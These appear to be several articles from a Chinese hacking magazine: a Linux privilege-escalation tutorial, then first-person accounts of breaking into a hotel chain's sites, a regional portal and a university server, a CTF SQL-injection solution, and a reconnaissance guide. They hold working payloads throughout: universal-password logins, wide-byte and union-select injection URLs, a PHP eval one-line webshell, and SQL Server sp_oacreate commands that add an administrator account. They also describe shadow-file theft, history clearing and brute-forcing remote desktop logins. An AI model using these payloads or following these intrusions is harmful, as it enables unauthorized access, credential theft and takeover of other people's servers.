执行 `ps aux` 命令后显示如图9。显示了程序的进程 id、CPU 占用率等详细信息，如果要结束某个程序，只需要用命令 `kill -9 PID` 就可以结束，其中 PID 就是在执行 `ps aux` 命令时显示的程序的 PID，当然前提是要有相应的权限。


#### 6. gcc

很多 Linux 下的漏洞利用程序都是用 C 语言写的，我们得到的很多时候是漏洞利用程序的 C 语言源代码。要想得到可执行程序，需要对源代码进行编译，这时候就用到大名鼎鼎的 gcc 了。个别情况下可能因为兼容性的原因，必须在要提权的 Linux 主机上编译漏洞利用程序，这时候也需要用到 gcc。GCC（GNU Compiler Collection，GNU 编译器套装）是一套由 GNU 开发的编程语言编译器。它是一套以 GPL 及 LGPL 许可证所发行的自由软件，也是 GNU 计划的关键部分，亦是自由的类 Unix 及苹果电脑 Mac OS X 操作系统的标准编译器。GCC 原名为 GNU C 语言编译器，因为它原本只能处理 C 语言，GCC 很快地扩展，变得可处理 C++，之后也变得可处理 Fortran、Pascal、Objective-C、Java，以及 Ada 与其他语言。

在大多数情况下，你在本地 Linux 系统中编译好的溢出漏洞利用程序直接上传到要提权的 Linux 主机上也能正常使用，不是必须要在要提权的主机上编译溢出漏洞利用程序。因为 gcc 特别强大，功能特别多，用法也特别多，要讲全的话估计要一本厚书的篇幅，这里不可能一一介绍。

在 Linux 提权中常用到的两个方面：

- 1. `gcc -v`

查看安装的 gcc 版本，我们的目的是通过执行 `gcc -v` 命令确认系统是否安装了 gcc；如果安装了会显示安装的 gcc 版本号，如图10；如果提示找不到命令等说明 gcc 没有安装。Ubuntu 10.10 默认安装了 gcc。


- 2. 另一个用到的重要功能就是把漏洞利用程序的源代码编译成可执行程序。

假设溢出漏洞利用程序源代码文件是 `exp.c`，通过 webshell 把 `exp.c` 上传到了要提权的 Linux 主机当前目录下，在反弹回来的命令窗口中执行 `gcc -o exp exp.c`，就会把 `exp.c` 编译成可执行程序 `exp`，其中 `-o` 参数后面跟的是编译生成的可执行程序名字，这里为 `exp`；另一个参数 `exp.c` 是要编译的溢出漏洞利用程序源代码文件名，这里为 `exp.c`。执行命令后如果没有错误提示就说明编译成功了，如图11。执行一下命令 `ls`，发现可执行文件 `exp` 已经生成了，如图12。

接下来输入 `./exp` 就可以运行漏洞利用程序 `exp` 了，如果溢出成功会显示类似图13。注意图下面的那个 `#`，对 Linux 有点了解的都知道 `#` 对应的是 root 权限，看到 `#` 就说明提权成功了，接下来你就可以以 root 权限运行各种命令了。


在通过溢出漏洞获得 root 权限后，能执行的命令就多了，很多没提权前没权限执行的命令现在都可以执行了。这时候可以执行一些命令来获取一些敏感信息，或进行留后门、清理日志等操作，方便更好地控制提权成功的服务器。

- 1. `cat .bash_history`

查看该用户曾经执行过的命令，也就是查看 root 用户执行过的命令。因为 Linux 下很多管理操作都是在命令行下完成的，而正常情况下用 root 用户执行命令的是管理员，通过查看管理员输入的命令，可能得到很多敏感信息。图14是在 Ubuntu 的终端中执行 `cat .bash_history` 命令后显示的我曾经执行过的命令。如果想清除这些命令记录，可以执行命令 `history -c`。你在提权成功要退出命令窗口时执行一下 `history -c` 就可以清除你的执行命令历史。


- 2. `cat /etc/passwd`、`cat /etc/shadow`

分别执行 `cat /etc/passwd`、`cat /etc/shadow` 命令后得到 `passwd` 和 `shadow` 的内容，把两个文件的内容保存到本地即可。john 跑字典尝试破解 root 用户的密码，具体怎么破可以自己查询相关信息。`cat /etc/shadow` 只有 root 权限才能执行。

### 3. chmod

在提权成功获得 root 权限后，你如果想下载服务器上的一个文件到本地，我的方法是先执行 cp 命令把要下载的文件复制到网站的 Web 目录下，但复制过去的文件只有 root 用户能访问，直接用浏览器下载会提示没有权限，这时候就需要用到 chmod 命令了。chmod 命令的作用是变更文件或目录的权限。如果要下载的文件是 shadow1，执行命令 `chmod 777 ./shadow1` 后就可以直接用浏览器下载了，不会再有权限问题了。

当然，在获得 root 权限后还可以做很多事，比如安装后门、想办法搞到 root 用户的密码等，可惜我不会，也和本文的题目“Linux 下提权常用小命令”关系不大，这里就不介绍了。在实际提权过程中用到的命令可能远不止这么多，我介绍的都是大路边最常用的。由于我对 Linux 几乎也是一窍不通，有介绍不对的地方还请大家谅解。

以后兄弟们遇到 Linux 主机，不要不敢去尝试提权，大胆尝试，往往会有惊喜和收获。

写本文的时候参考了“明伟 Linux 提权解惑”一文和《鸟哥的 Linux 私房菜基础学习篇（第二版）》一书的内容，在此说明。

### 闷在万能密码下的连锁酒店

卞晓东

现在大家的生活消费水平都高了，开始向提高品味的方向发展，外出旅游的确是一件令人愉快的事情。不过在动身之前，我们还是习惯于在网上查一下实际的出行路线、进行目的地酒店的考察。通过百度，我找到了一号称是“全球乡村休闲旅游连锁酒店第一品牌”的某乡旅连锁酒店（www.xxx.com），在全国各省分布有几百家连锁店。主页做得很漂亮，很模板化（如图1），但“职业”性的敏感使我首先想到了它的安全性。由于在首页的全国地图上可以直接查询到每一家连锁酒店的子站，链接形式为 `http://www.xxx.com/Rurallist/InnDetail.asp?id=13689823900`，会不会存在注入漏洞呢？如果有的话，像这种一套模板下来的连锁式网站，岂不成了赤壁之战中曹操的“连船”？


于是我在主页上随机点击了几家各省的连锁酒店，除了打不开的死链接之外，其他的都是一个模子刻出来的。让我感到非常意外的是，在这些连锁酒店的网页右下角无一例外地都存在着一个名为“管理员入口”的链接（如图2）！咱们这行的都知道，像这些属于高度敏感性的字眼儿藏都来不及，怎么能为了图一时的管理方便而明目张胆地显示给所有人看呢？

点击“管理员入口”链接之后，马上弹出登录界面（`http://www.xxx.com/Rurallist/login.asp?id=13689823900`），在“用户名”和“密码”处先试了下“admin”，失败；再试试“admin888”，又失败；再试试一万年以前的“万能密码”吧——`or'='`（如图3），晕死，竟然成功了，进入了后台管理系统（如图4）！同样，我又找了几个连锁酒店页面，都犯同一个毛病，用 `or'='` 万能密码均能够畅通无阻地进入。虽然后台的管理功能并不是很强，但如果想要进行基本信息的修改是绝对没有任何问题的；而且，其中还有“上传图片”模块，是不是会让人立刻联想到“小马”的上传呢？虽然我并未再继续向下做入侵实验，但这种连锁酒店的网站在安全性方面实在是太低级了，撰写成文就算是给一些人提个醒——21世纪了，各位网管大哥，给点儿力吧！


图3


图4

### 福客人企业站管理系统宽字节注入漏洞

txcbg

前几天在 t00ls 闲逛时看到毅心毅意公布了稻草人企业站管理系统的一个宽字节注入漏洞，平时宽字节注入漏洞见得比较少，就在虚拟机里照着毅心毅意的方法验证了一次漏洞，觉得有点意思，所以介绍给大家。

#### 一、宽字节注入简介

在看毅心毅意公布的稻草人企业站管理系统宽字节注入漏洞前，我对宽字节注入的知识几乎一无所知。看到这个漏洞后到网上搜索了下相关信息，考虑到可能有部分叉子也对宽字节注入漏洞缺乏了解，我就现学现卖，在此介绍给还不知道的叉子。

如果 `magic_quotes_gpc=On`，PHP 在遇到提交过来的 `'` 等在 shell 命令行里有特殊意义的字符串时，会通过在前面加上 `\` 来进行转义处理。来看个实例，把下面代码保存为 test.php：

```php
<?php
header("Content-Type:text/html;charset=gb2312");
echo $_GET["str"];
?>
```

把 test.php 放到支持 PHP 的 Web 空间中，这里我把它放到了我虚拟机里的 PHP 环境中，访问地址为 `http://127.0.0.1/test.php`。test.php 的作用是显示通过 str 变量提交过来的东西，比如访问 `http://127.0.0.1/test.php?str=hackerxfiles`，页面显示为 hackerxfiles，如图1，原样输出了我们输入的东西。我们来提交一个 `'` 试试，访问 `http://127.0.0.1/test.php?str='`，页面却显示为 `\'`，被转义成了 `\`，如图2。


图1


图2


图3

貌似开启 `magic_quotes_gpc` 后很好地过滤了 `'` 等危险字符，真是这样吗？下面再来看个例子，提交 `http://127.0.0.1/test.php?str=%d5'`，如果能正常过滤的话应该显示 `%d5\'`，但实际的显示结果却是“誠”，如图3，`'` 没有经过过滤就显示了出来。

这是怎么回事呢？问题好像出在提交的 `%d5` 身上，也确实如此，因为 PHP 转义的底层函数 `php_escape_shell_cmd` 存在一个漏洞。PHP 通过将 `"`, `#`, `&`, `;`……等等在 shell 命令行里有特殊意义的字符都通过在前面加上 `\` 变成 `\"`, `\#`, `\&`, `\;`……来进行转义，使得用户的输入被过滤，来避免产生 command injection 漏洞。在 PHP 看来，只要过滤了这些字符，送入到 system 等函数中时参数就是安全的。但实际上，对于 GBK（GB2312 可以认为是其子集，GBK 扩展了对繁体中文的支持等）等宽字节编码，一个中文字符被处理成两个字节保存：

- 首字节范围在 `0x81-0xFE`
- 尾字节范围在 `0x40-0xFE`（不含 `0x7F`）

请注意，对于转义用到的 `\`（`0x5C`）恰恰包含在尾字节当中！当我们提交一个 `0x81-0xFE` 的字节（本例是 `0xD5`）并故意带上一个敏感字符 `'` 时，PHP 针对 `'` 进行转义，产生一个 `\`（`0x5C`）；恰好与前面的 `0xD5` 结合在一起成为一个完整的字符“誠”，原本的转义符号“反水”了。而“誠”的 URL 编码也确实是 `%D5%5C`，如图4。

在 PHP 环境中把稻草人企业站管理系统安装好，访问地址为 `http://127.0.0.1/dcr/`，如图5。


同样的，这个漏洞对于 POST、Cookie 都有效。

通过宽字节编码漏洞能提交 `'` 等符号是很致命的，因为在 PHP+MySQL 注入中 `'` 很重要，能带入，注入漏洞也就产生了。

以上对宽字节注入的介绍参考了大量网上的信息，在这里说明下。

#### 二、稻草人企业站管理系统宽字节注入漏洞利用

简单介绍完了什么是宽字节注入，来看稻草人企业站管理系统宽字节注入漏洞的利用。我下载了存在漏洞的稻草人企业站管理系统 v1.0.5.1 GBK 的源代码，在虚拟机里安装测试。

出现漏洞的文件是网站根目录下的 `search.php`，具体代码就不分析了，直接给出毅心毅意公布的爆管理员用户名和密码的语句：

```text
search.php?k=1%d5'%20union%20select%201,username,3%20from%20dcr_qy_admin%23
search.php?k=1%d5'%20union%20select%201,password,3%20from%20dcr_qy_admin%23
提交http://127.0.0.1/dcr/search.php?k=1%d5'%20union%20select%201,username,3%20from%20dcr_qy_admin%23爆出管理员的用户名为admin。接着提交http://127.0.0.1/dcr/search.php?k=1%d5'%20union%20select%201,password,3%20from%20dcr_qy_admin%23，爆出管理员的密码dc7kFzD786hno，如图6、7。
```

密码好像是经过加密的，通过查看源代码发现加密代码如下：

```php
crypt(md5($s),"dcr")
```

其中 `$s` 就是密码的明文。由于我对加密方法一窍不通，也不知道能不能通过加密后的密文得到明文密码，这里只给出几个常用弱口令对应的密文：


另外，我写了一个利用这个加密算法的 PHP 文件，代码为：

```php
<?php
header("Content-Type:text/html;charset=gb2312");
$str=$_GET["str"];
echo "$str";
echo "<br/>";
echo crypt(md5($str),"dcr");
?>
```

保存为 jiami.php 后把 jiami.php 放到支持 PHP 的 Web 空间中，提交 `http://127.0.0.1/jiami.php?str=admin` 就可以得到 admin 加密后的值，如图8。


通过注入得到的管理员密码为 `dc7kfzD786hno`，通过给出的几个弱口令明文和密文的对照知道密码为 admin。知道了密码来进后台找拿 shell 的方法。稻草人企业站管理系统默认的后台目录为 dcr，访问 `http://127.0.0.1/dcr/dcr/login.htm` 就来到了后台登录页面，用得到的用户名和密码进入了后台，如图9。


稻草人企业站管理系统在后台拿 shell 非常简单，因为它的后台提供了一个文件管理器，可以直接编辑网站目录下的所有文件，还能给文件改名，如图10。


通过文件管理器编辑网站根目录下的 robots.txt，写入 PHP 一句话木马的服务端代码 `<?php eval($_POST[x]);?>`，然后把 robots.txt 改名为 robots.php，用 lanker 一句话 PHP 后门客户端 3.0 连接 `http://127.0.0.1/dcr/robots.php`，成功获得 shell，如图11。


本文通过稻草人企业站管理系统宽字节注入漏洞简单介绍了产生宽字节注入漏洞的原因，希望大家能举一反三，找到别的存在宽字节注入漏洞的程序。我会把存在漏洞的稻草人企业站管理系统源代码打包给大家，方便做本地测试，同时我也会把文中用到的 test.php 和 jiami.php 打包给大家。

### 检测——地震门户

康斯坦丁

前几天拿的一个门户站，花了一天多的时间从分站成功渗透到主站，拿下 2 台服务器权限，拿下之后就马上抓图写过程了。

可以识别出文中网址的地方我都做了处理，文中将用 A 站代表此次的目标站。下面正文开始。

A 站是一地方最大的门户站，用户量达 70W，A 站和其子站全是以自己公司设计制作的 ASPX 动态脚本为主体结构，以 ASPX 为整站结构的网站。我喜欢找编辑器目录开始下手，如图 1。


图1

A站 DZ!netBBS 结构，操起 wwwscan 开扫，看扫描得到什么敏感目录；在扫目录同时开始查旁站，发现是独立服务器。回到 A 站上右键使用 360 浏览器下载全部链接，如图 2。


图2

A 站图片文件存放在以 admin 开头的域名目录下，看起来是专门管理网站的地方。用旁注扫描器扫描了一下，发现和 A 站同一个服务器，访问之，跳转到了 A 站主页上了，加个 admin 看看，出现了登录页面，开始使用各种弱口令万能密码猜解，无果。看了下 wwwscan 的扫描结果，存在的目录和文件少得可怜，断定了主站的更新和用户管理是在这里完成，停掉了 wwwscan，开始转向其他子站；经查询以下 3 个服务器存在他们的子站：127.0.0.1 子站，客户站。

127.1.1.2 主站 BBS

127.2.2.3 子站 湘薄 游戏

发现 127.0.0.1 分站较多，决定从 127.0.0.1 这个 IP 下手，打开几个企业站，看了下结构发现是 A 站公司承包制作，连后台登录页面也一模一样，还是弱口令万能密码猜解之，还是无果，如图 3。

回到主页，照旧下载全部链接发现敏感目录 eweb，在 eweb 目录后加个 eWebEditor.htm 看看，如图 4。存在 eWebEditor.htm 文件，版本是 4.4 的。这个版本很少看见，不知道是 asp 版本还是 net 版本，访问 asp 目录看看，不存在 asp 目录；打开 `http://www.xxoo.cn/admin/xxoo/eweb/aspx/upload.aspx` 显示空白，存在该文件，证明是 net 版本，如图 5。百度之，未找到该版本漏洞，下载了源码本地搭建，发现完整版本存在后台，后台目录为 admin，可以添加样式等等。回到企业站上一试，不存在 admin 目录，猜测 eweb 后台被删除。eweb 编辑器拿 SHELL 思路中断。继续找其他同服务器站，来到 A 站的娱乐博彩子站，发现图片存放目录和其他子站不同，由此猜测有其他编辑器存在，开起 wwwscan 就扫，夜也深了，明早再来看结果吧；第 2 天，一大早就醒了，看下 wwwscan 扫出来的结果，如图 6。


图3


图4


开始访问扫出来的后台链接，访问 `http://www.xxxooo.com/admin/left.aspx` 时，竟然是后台菜单，后台验证不足可以直接访问，如图 7。这下思路来了，马上点击管理员设置，找到添加管理员链接访问之，跳转到了后台登录页，猜测是 JS 验证，换了个 firefox 浏览器，点击 firefox 上的选项，将启用 javascript 的勾去掉，如图 7、图 8。


访问添加管理员链接 `http://www.xxxooo.com/admin/addadmin.aspx?action=add`，出现了添加管理员页面，如图 9：


立即添加用户名，密码为 123 的管理员进去，到后台成功登录。看物理路径判断是星外主机，开始找编辑器，如果是 FCKeditor 就好办了，可还是失望了；后台用的还是 ewebeditor 编辑器 4.4，无后台，另外一处上传用尽了能想到的办法还是没办法突破，放弃……回到管理员管理处，看到存在其他 7 个管理员，密码还是明文显示，果断把用户密码 copy 下来，如图 10。


兴冲冲地跑到 A 站管理登录页面尝试登录，还是无果，看来这些用户只负责分站的管理更新，A 站后台无权进入。接下来怎么办？还是老办法，A 站后台进不了，尝试其他分站看看怎么样。来到 A 站活动分站后台，用 kim 用户登录后台成功。继续找上传点，如图 11。


在添加参赛者处直接成功上传 aspx 一句话菜刀链接，找到可写可执行目录执行 cmd，运行 cscript.exe 读 VBS 获取星外用户密码，成功得到服务器权限和服务器所有站点的 FTP 用户密码。不想引起太大的动静，并没有登录服务器。接下来打开站根目录下的 Web.config 文件，找到数据库配置信息，发现数据存放在内网服务器，用菜刀连接一个名为 xxoobbs 的数据库，发现其结构是 DZ!net 数据库结构。连接成功的同时也可以清楚地看到其他数据库名称，如图 12。

有点失望，JLM 的字典也没能扫到编辑器目录。其中 xxooadmin 数据库可能就是存放 A 站管理后台数据的数据库，在 xxoobs 数据库中查询不到什么可疑表名后，转向 VBS 获取到的 FTP 信息，竟然找到 A 站的域名，用 FTP 软件连接失败，猜测是 N 久以前 A 站曾放置在这个服务器上，搬走后又没删除 IIS 中 A 站使用的账户。ASPX 大马访问其目录，显示拒绝访问，证明该目录存在。接下来我用 FOR 命令 `for /r e:\freehost\xxoo\web\ %i in (*.*) do @echo %i` 列出该目录下所有文件，如图 13；竟然存在 Web.config 文件，TYPE 命令读取之，发现 xxooadmin 数据库连接信息，如图 14。

马上传刀连接，竟然成功连接，查询其 admin 表名内容，发现 6 个管理员用户，密码为 32 位 MD5 加密，叫朋友破了 admin 用户密码，来到 A 站管理后台，成功登录。这下离成功不远了。在信息管理（添加）处找到 ckfinder 编辑器，这下拿 SHELL 就简单多了，如图 15。点击浏览服务器，创建一个 1.asp 文件夹，上传一句话图片木马，成功解析，成功拿下 A 站管理域名 SHELL，如图 16。


菜刀连接上去发现还是星外主机，权限设置得比分站的还要严格，D 牛的目录读写检测没有发现可写可执行目录，上传 ASPX 大马转向注册表查找。在注册表键值为 `HKEY_LOCAL_MACHINE\SOFTWARE\Hage\DUMeter` 找到 `D:\Program Files\DU Meter` 目录，用目录读写检测扫描了一下，发现可写，同样上传 cmd 运行 `cscript.exe` 读 VBS 获取星外用户密码和 A 站 FTP 密码。成功回显，至此 A 站服务器沦陷。


事后才整理出这文章，其实在未发现分站服务器存在 A 站数据库配置信息时，花了很多时间去测试 A 站管理后台验证不足的部分连接，但没有成功突破，所以文中没有出现这一失败的环节。文章没有什么技术含量，注意的更多的是细节。

## 另辟蹊径绕过堡垒大掌控站景帝权限

赵治晟

前些日子联系上了一个昔日的好友，据他说他所在大学的网站的安全工作做得不错，他搞了很久还是一无所获，所以希望我帮他看一看。俗话说知己知彼方能百战不殆，打开朋友给的网址：www.z**b.edu.cn，浏览页面并分析站点结构与后台特征。

打开网站首页后发现站点采用 ASP.NET 开发，通过后台生成静态页面。在首页底部发现一个较隐蔽的超链接，路径类似 `http://www.z**b.edu.cn/Manager/template/.../login.aspx`，疑似后台入口。


进一步推测高校常将不同二级域名指向不同院系站点。通过搜索二级域名并结合主站信息，尝试寻找与主站同 IP 的站点，以扩大可利用面。

搜索结果中发现“xx 学院异网同显系统”，域名为 `jyxx.z**b.edu.cn`。对其进行 ping，发现与主站 `www.z**b.edu.cn` 的 IP 同为 `125.*.*.220`，基本可判断在同一服务器。


随后将目标转向 `jyxx.z**b.edu.cn`。页面底部出现“技术支持：某某网”等字样，由此联想到第三方“异网同显系统”程序。通过搜索该系统可发现大量学校部署案例，进一步尝试通用后台路径如 `/admin/`。


常见测试语句：

```sql
' or 1=1 --
'or'='or'
```

若参数过滤不严可能导致绕过；文中该站点对此法不可行。

- Admin----123456
- Admin----888888
- admin----admin
- 最终以用户名 `admin`、密码 `admin` 登录成功（文中案例）


作者随后在其他站点进行类似验证，发现不少站点可用弱口令进入后台，指出高校站群管理中存在安全意识与口令策略薄弱的问题。

时我发现在后台的“管理员设置”页面，有许多网站竟然都存在有 webmaster123 和 webmaster123123 这两个账户，如图 7 所示。


很容易想到，这两个账户是程序开发人员留下作为测试用途的。既然这样，我们的目标 `jyxx.z**b.edu.cn` 很可能也存在这两个账户。可是后台无法看到管理员的密码（加密保存，并且不显示），这下怎么办呢？只好用一下社会工程学了。观察发现，两个账户 webmaster123 和 webmaster123123 都是“webmaster+123”的组合；又因为这两个账户是程序开发人员为了测试程序用的，所以密码应该不会很复杂（这样才符合正常人的逻辑嘛！），所以密码应该是简单的“123”“123456”“123123”之类的数字组合。

打开目标站点的后台：`jyxx.z**b.edu.cn/admin`，猜测一下用户名和密码。当试到用户名为 webmaster123123、密码为 123123 的时候成功进入了后台。在后台看了一下，发现有发布文章的地方，并且可以上传附件。最重要的是对上传文件的类型没有任何限制！

这下就好办了，直接传个 asp 木马上去拿到 webshell，如图 8 所示。

用 webshell 看了一下服务器的情况，发现权限设置的不是很严格，并且也成功找到了 `www.z**b.edu.cn` 主站所在的目录，这就证实了之前的猜想，他们的确是在同一台服务器的。

可是仅仅拿到了 webshell 怎么能满足呢？System shell 才是我们的最终目标啊！

之前提到过这个网站是用 asp.net 开发的，熟悉 asp.net 的朋友们都知道 asp.net 一般是选择 mssql 作为数据库的。如果管理员的安全意识不强，使用 system 权限的 sa 账户来连接 mssql 数据库，那我们就可以执行任意命令了。

用拿到的 webshell 仔细查找数据库连接文件，功夫不负有心人，总算被我发现了如图 9 所示的数据库连接信息。


我们可以很清楚地得到连接 mssql 数据库的用户名是“sa”，密码是“elit****”。马上用 webshell 的“数据库操作”功能来验证一下。可是当我用上面的用户名和密码连接时却发现根本无法连接 mssql 数据库，提示“[Microsoft][ODBC SQL Server Driver][DBNETLIB]SQL Server 不存在或访问被拒绝”。这是为什么呢？莫非 mssql 的默认端口被改了？


用 webshell 的“端口扫描”功能扫描一下，结果如图 10 所示，mssql 的默认端口 1433 果然被改了。

这个小小的困难是无法阻止我取得最高权限的决心的！试了一下发现默认的 cmd.exe 拒绝访问无法执行命令，上传一个 cmd.exe 到 `C:\Documents and Settings\All Users\Documents\` 目录下，执行 `netstat -an` 命令，成功了，如图 11。

结果之中有一个 `127.0.0.1:1434`，状态为 LISTENING 的非常引人注意，因为 1434 和 mssql 的默认端口号 1433 实在是太像了！再次用 webshell 的数据库连接功能连接，成功了！如图 12。


依次执行如下 4 条 SQL 命令添加一个用户名为 apple、密码为 apple123 的 Windows 账户：

```sql
declare @shell int
exec sp_oacreate 'wscript.shell', @shell output
exec sp_oamethod @shell, 'run', null, 'c:\windows\system32\cmd.exe /c net user apple apple123 /add'
```

```sql
declare @shell int
exec sp_oacreate ...
exec sp_oamethod @shell output, exec sp_oamethod ...
... c:\windows\system32\cmd.exe /c net localgroup administrators apple /add
```

当我试图执行上述语句的时候提示错误：“SQL Server 阻止了对组件 'Ole Automation Procedures' 的过程 'sys.sp_OACreate' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用 'Ole Automation Procedures'。”

没关系，使用 SQL 命令来启用 `sys.sp_OACreate`，依次执行如下命令：

```sql
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
GO
```

现在就可以畅通无阻地执行刚才添加系统账户的命令了。

执行完毕后用 webshell 执行 `net user` 命令查看一下系统账户，发现刚才添加的名为 apple 的管理员的确存在于系统账户之中了，打开远程桌面，顺利登录服务器。至此，已经拿到该大学主站的最高权限，如图 13。


简单地总结一下，其实入侵不一定要用到很高的技术，重要的是思路灵活并善于发现细节，不要错过任何一个可以利用的条件。

为了保护他人的利益，笔者模糊了文中相关网站的域名等敏感信息，请大家见谅！

## 绘制秦玺金乌灵珑脚本文  
### BOSS 之图片也来 SQL 注入

Jarett [N.S.T]

之前在某大牛的博客上闲逛的时候，看到国内某知名公司与一所大学联合举办了一次信息安全竞赛，好像很好玩呀，所以就去看了下。其他关卡按下不表，交流群里有很多人在问脚本关最后一题，这几天刚好竞赛结束，因此我来跟大家分享一下最后一关的解题过程。题目很简单，只有几句话，如图 1。


首先遇到的第一个问题就是这个图片显示不出来，我当时花了几乎一天的时间来思考，也尝试着去猜是不是图片的路径不对，例如加入一些其他信息拼凑路径什么的。

是好像又不是路径之类的问题，那么到底是哪里出了问题呢？

我看了下提示，提示里面是这样写的：“北理极速之星是啥？不知道？你 OUT 了，赶快 baidu 一下吧。”我百度了一下，发现网址 `http://bitpt.cn/`，尝试在图片路径中加入相关的东西，还是不行。我又没有那个网站的会员账号，能看到的信息少得可怜。最后想到，难道给一个网址是为了我们用来写在 ref 里？前面已经有过一道这样的题……

打开 FireFox，在 RefControl 插件中，选择添加站点，然后选择自定义，把 `http://bitpt.cn/` 填进去，把网址填为比赛的官网地址，然后再打开，果然，图片出来了，如图 2。


## 一个人的战争

我们打开图片所在的地址，发现是一个 `bitptpicture.php?id=1` 这样结尾的地址，尝试变换 id 后面的数字，发现图片内容不同。我们的目标是找出数据库表名，先加单引号后报错，如图3。


可是这里爆出来的东西无法直接显示，貌似只能分辨能不能显示出图片，而无法看到数据库。仔细思考后判断这是动态生成的个人签名图片，图片中的名字、上传流量以及下载流量应是从数据库查出再拼接到图片中的。

结合报错语句，猜想查询 SQL 类似：`select name,upload,download from xxx where id='1' limit 0,1`。先看数据库类型，在后面加 `--` 返回正常，如图4。


看起来是 MySQL，接着尝试直接把版本号弄出来，如果是 5 以上就更容易继续。

```text
http://www.isclab.org:8080/10/bitptpicture.php?id=1' and 1=2 union select version(),2,3 -- -
```

返回结果显示信息被拼到图片中，如图5。


数据库版本是 `5.0.77`，接着可以直接爆库名。由于后两个字段是数字类型，只能在第一个名字字段显示字符串，继续提交：

```text
https://www.isclab.org:8080/10/bitptpicture.php?id=1' and 1=2 union select database(),2,3 -- -
```

好，数据库名字是 `interest`，如图6。


接下来验证奇迹时刻：把 `interest` 转成16进制为 `0x696E746572657374`，再查询表名：

```text
http://www.isclab.org:8080/10/bitptpicture.php?id=1' and 1=2 union select table_name,1,2 from (select * from information_schema.tables where table_schema=0x696E746572657374 order by table_schema limit 0,1)t -- -
```

直接爆出表名，游戏结束，如图7。


至此，游戏结束，也让我对注入有了更深理解：只要存在 SQL 且能看到返回的地方，都可能存在 SQL 注入，甚至图片也能作为注入载体。

### 关于“踩点”的那些事儿

老鸟飘过，菜鸟留步。

说到“踩点”，这些年似乎被忽略了，但在七八年前却是技术含量很高的词。早期网站入侵一般先扫描目标端口、空弱口令账号，再通过命令行或 3389 做隐藏添加和提权，之后上传木马服务端并定时运行，最终达到窃取资料和长期控制的目的。

虽然时代不同，入侵方法多样，但“踩点”仍是入侵中不可或缺的一环。尤其在定点网站入侵时，往往要经过大量目标测试，确认注入漏洞再做账号猜解；即使暂时无法进入后台，也不应停留在单一“淘金”式入侵思路，而应重整思路继续踩点。

## 一、对域名、IP、注册信息、同IP网站的踩点

进行此类信息的踩点一般可以直接使用网站的在线查询功能，就像众所周知的 IP 地址查询（如：http://www.ip38.com/index.php）。

首先建议大家可以试一下可以进行域名反查和注册信息及 IP 归属地等查询的 http://www.ip866.com/（最近还正在搞有奖调查活动，可100%获手机2元充值话费），直接将目标网站的域名粘贴到网页中，然后点击后面的“查询”按钮就可以开始进行 IP 归属地、服务器信息、网页检测、搜索引擎收录和域名注册信息等的查询了。另外，还可以再试试 http://www.114best.com/IP/ 所提供的同 IP 和同服务器网站查询等功能，将 IP 或网站域名粘贴好之后点击后面的“114Best查询”按钮，很快就会得到“共检测到XXX个网站与XXX在同一IP服务器上”等信息，包括服务器所在地区及各网站的链接和标题都直接显示出来（如图1），这些信息对于注入无果，“旁注”尝试可是十分有价值的，说不定星星之火就藏匿在其中的某个网站之中呢！


图1

80、8080、21、3389等共20个，当然我们可以手工添加自己想要扫描的端口号。使用方法也很简单：将域名或IP粘贴到“IP/域名：”之后的文本输入框，点击后面的“查询”按钮即可，下方会动态显示出目标网站的哪些端口开放、哪些端口关闭（如图2）。如果发现21和3389端口都开放的话，建议大家可以用得到的账号和密码来尝试进行 FTP 和远程桌面连接，惊喜往往就会发生在这样的时刻！


图2


图3

## 二、对端口的踩点

假设我们已经通过注入猜解的方式得到了目标网站的账号与密码，但却不知它的后台管理地址，奈何？此时，何不试试扫描它的端口服务呢？

- 1. 宝刀渐老的 X-Scan

这个不用多说废话做介绍了，想必大家都熟悉得很。但估计是很多网站都使用防火墙的原因，X-Scan 经常会“哑火”，在设置好目标和待检测的端口、漏洞等之后，点击“开始”按钮的瞬间几乎就直接提示“扫描全部完成”，其时间间隔只有1秒！碰到这种令人郁闷的情况就别再死等了，试试别的出路吧。

- 2. 给力的“站长工具”

打开 http://tool.chinaz.com/port，这里的“站长工具-端口扫描器”还是非常好用的，其默认的待扫描端口号包括……

- 3. 专门对付某IP段、某端口的 S 扫描器

如果待入侵的目标网站比较特殊（比如是某市的教育网段），我们还可以来试一下 S 扫描器（下载地址：http://u.115.com/file/dngl28vff）。这个 GUI 版（图形界面）的 S 扫描器使用起来也极为傻瓜化，直接双击运行之后，在“开始IP：”和“结束IP：”处分别填入待踩点扫描的起始IP地址（建议跨度不要太大），比如在左下角的“端口”处直接输入“3389”，然后就可以点击“开始扫描”按钮进行该IP段的3389端口扫描了（如图3）。结束之后再点击“查看结果”按钮就会打开 Result.txt 文件，上面就记录着扫描得到的形如“xxx.xx.xxx.xx 3389 open”信息，说明在该IP段内这些机器的3389端口是开放的，下一步就可以再用常用或得到的账号等来进行试探登录，或者使用“中国知音3389爆破”之类的工具进行暴力猜解，或许会在不经意间打开那扇紧闭的门！

## 三、对网站目录的踩点

通常我们对目标网站进行踩点的原则是尽可能多地得到信息，虽然最后总会发现其中有不少是冗余无用的。因此，在拿下目标网站之前如果能得到对方网站的目录结构无疑是件锦上添花的好事。到 `http://u.115.com/file/...` 上下载安装大小仅 144KB 的“可视化wwwscan”工具，直接运行并在“地址”处填写目标网站域名，默认目录、端口、线程等参数一般可保持默认，点击“开始”即可对网站目录进行扫描踩点。根据内置 `cgi.list` 提供的 `/admin/`、`/backup`、`/bbs/data/` 等后缀信息组合探测，常可得到以目标域名命名的报告，并可直接尝试访问扫描出的 URL，往往能挖出后台管理地址。

`site`、`inurl` 和 `filetype` 是很有用的语法词，分别可限定网站域名、判断特定字符串是否出现在 URL 中、以及限定文件类型。比如在 Google 中使用 `site:xxx.com`（不带 www），可减少杂乱结果；如 `inurl:admin` 常用于定位后台入口；`filetype:mdb` 配合 `site:xxx.com` 可能检索到敏感数据库文件。


图4

寥寥数语，一家之言，敬请指正。（文中涉及的“GUI版扫描器、可视化wwwscan、vmp”本期光盘已收录）

## 四、莫小瞧了 Google Hacking 的踩点

Google Hacking 虽是老生常谈，但在定点入侵的踩点过程中仍非常重要。不要把 Google 只当作普通搜索引擎，建议系统学习其高级检索技巧并实践，才能更快积累有效信息。

## 114啦网址导航留言本注入0day

